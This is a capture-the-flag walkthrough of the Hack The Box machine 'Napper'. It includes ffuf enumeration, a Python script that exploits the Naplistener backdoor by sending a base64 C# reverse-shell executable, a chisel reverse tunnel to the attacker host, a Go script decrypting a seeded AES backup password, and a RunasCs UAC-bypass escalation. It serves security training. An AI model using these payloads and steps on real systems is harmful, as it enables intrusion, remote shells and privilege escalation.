


---
---

# HTB - Napper

NMAP


 
Add to /etc/hosts:
**app.napper.htb**
**napper.htb**




**<u>Subdomain enumeration:</u>**

- For HTTPS sites use ffuf:
```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 100 -u https://napper.htb -H "Host: FUZZ.napper.htb" --fs 5602

```


Add **internal.napper.htb** to /etc/hosts

- The IIS site is setup with basic authentication


- On the app.napper.htb site, there are post on how to setup an IIS server with basic auth:


And it shows the example user and password

**example : ExamplePassword**

- And it works

- Here we can see that they found malware called Naplistener on the server:


- This article outlines the POC code and how it works:
[https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph](https://www.elastic.co/security-labs/naplistener-more-bad-dreams-from-the-developers-of-siestagraph)

- I used the POC code and just sent any base64 encoded string to the server, using the right parameter
And we got back a 200 OK Response


But we got a 200 OK, so we know it works


- Now we need to find a C# reverse shell (revshells.com)


- We need to change a few minor things:


- Th namespace must match the filename (ie. the file needs to be called ConnectBack.exe)
- It must contain a Run class
- Create a constructor and place the shell code inside, so it is automatically invoked whenever an instance of the class is created
- The main() point of entry will just call the constructor

So the final code will be :


- Now we need to compile the C# code:
```bash
mcs -out:ConnectBack.exe rev_shell.cs

```



- Base64 the .exe and copy the code:
```bash
base64 ConnectBack.exe

```


- Using the POC code from the website:


**<u>Naplistener.py script:</u>**

```python
import requests
from requests.auth import HTTPBasicAuth
from urllib3.exceptions import InsecureRequestWarning

# Disable insecure request warnings
requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

host = "napper.htb"
payload = """<Base64 ConnectBack.exe>"""
form_field = f"sdafwe3rwe23={requests.utils.quote(payload)}"
url_ssl = f"https://{host}/ews/MSExgHealthCheckd/"

# Replace 'username' and 'password' with credentials
username = 'example'
password = 'ExamplePassword'

try:
    # Removed - not needed - Include the auth parameter with HTTPBasicAuth for Basic Authentication
    # , auth=HTTPBasicAuth(username, password)
    r_ssl = requests.post(url_ssl, data=form_field, verify=False)
    print(f"{url_ssl} : {r_ssl.status_code} {r_ssl.headers}")
except KeyboardInterrupt:
    exit()
except Exception as e:
    print(e)
    pass
```
\*Paste the copied base64 code into the payload variable

- Setup a listener on the port

- Run the script:


- We have a shell:


```bash
cat user.txt

```
- Upload Winpeas:


- We see the following directory:
C:\Temp\www\internal\content\posts\internal-laps-alpha\a.exe

- In the directory above - we get two files
**a.exe**

**.env**


We gather that Elastic is running on port 9200 on the localhost

We have a:

username: **user**

password: **DumpPassword\$Here**

The backslash (\\ before the dollar sign (\$) suggests that the dollar sign is intended to be treated as a literal character

rather than being interpreted as a variable

- Upload chisel - so we can access the site:
  - On Kali:
```bash
chisel server -p 8888 --reverse

```
- On target:
```bash
.\chisel.exe client 10.10.14.50:8888 R:socks

```


Login with the credentials


- We can see mentions of the backupuser and the tagline seems like a comment


<https://localhost:9200/_search>


We get some more information

**<u>Reverse engineering:</u>**

- Download the a.exe file so we can reverse engineer it with Ghidra
- The exe is built with golang it seems, so we should install a golang extension for it so it's more readable

- Check Ghidra version first then download the right version:
<https://github.com/mooncat-greenpy/Ghidra_GolangAnalyzerExtension/releases>


- Before installing golang extension - it looks like this:


- Afterwards - more readable:


- Find the main branch (main.main)


- Here we can see the blob and timestamp from the JSON


**<u>Script for decoding the blob:</u>**

```go
package main

import (
    "crypto/aes"
    "crypto/cipher"
    "encoding/base64"
    "flag"
    "fmt"
    "math/rand"
)

// genKey generates a 128-bit AES key from a given seed
func genKey(seed int64) []byte {
    rand.Seed(seed)
    key := make([]byte, 16) // AES-128

    for i := range key {
        key[i] = byte(rand.Intn(254) + 1)
    }

    return key
}

// decrypt decrypts the encrypted data using the generated key and returns the original text
func decrypt(seed int64, encryptedBase64 string) (string, error) {
    // Generate the encryption key using the same seed
    key := genKey(seed)

    // Decode the base64-encoded data
    encryptedData, err := base64.URLEncoding.DecodeString(encryptedBase64)
    if err != nil {
        return "", fmt.Errorf("base64 decode: %w", err)
    }

    // The first 16 bytes should be the IV
    iv := encryptedData[:aes.BlockSize]
    encryptedText := encryptedData[aes.BlockSize:]

    // Create a new AES cipher using the generated key
    block, err := aes.NewCipher(key)
    if err != nil {
        return "", fmt.Errorf("new cipher: %w", err)
    }

    // Decrypt the data using CFB mode
    stream := cipher.NewCFBDecrypter(block, iv)
    decrypted := make([]byte, len(encryptedText))
    stream.XORKeyStream(decrypted, encryptedText)

    return string(decrypted), nil
}

func main() {
    // Define command-line flags
    seedPtr := flag.Int64("seed", 0, "Seed used to generate the encryption key")
    encryptedBase64Ptr := flag.String("data", "", "Base64-encoded encrypted data to decrypt")

    // Parse the flags
    flag.Parse()

    // Validate inputs
    if *seedPtr == 0 || *encryptedBase64Ptr == "" {
        fmt.Println("Usage: decrypt -seed=<seed> -data=<encrypted_data>")
        return
    }

    // Decrypt the text using provided command-line arguments
    decryptedText, err := decrypt(*seedPtr, *encryptedBase64Ptr)
    if err != nil {
        fmt.Println("Decryption error:", err)
        return
    }

    fmt.Println("Decrypted text:", decryptedText)
}

```

- The backup password changes frequently so set everything up beforehand and then refresh the page to get the blob and the seed

- Create and upload a reverse shell
- Upload RunasCS
- Set up a listener

- Build the go file  
```bash
go build decrypt.go

```
- Get the updated blob and seed and run the go program:
```bash
go run decrypt.go -seed=29268452 -data="febmF1H0JlQFI97jPs87bLjUqBbG6VS_udL8MQ0pvduoDXJuftLW3td74B0KrJdB2Ra19btk0M0="

```


- Use the password generated and run the reverse shell with RunasCS
```bash
.\RunasCs.exe backup ksjWToylCIXHbCmDKBnjwcKGJVUOLPWCNqnDAPAA ".\backup_reverse.exe" --bypass-uac

```


- Backup user has rights to Administrator
```bash
type root.txt

```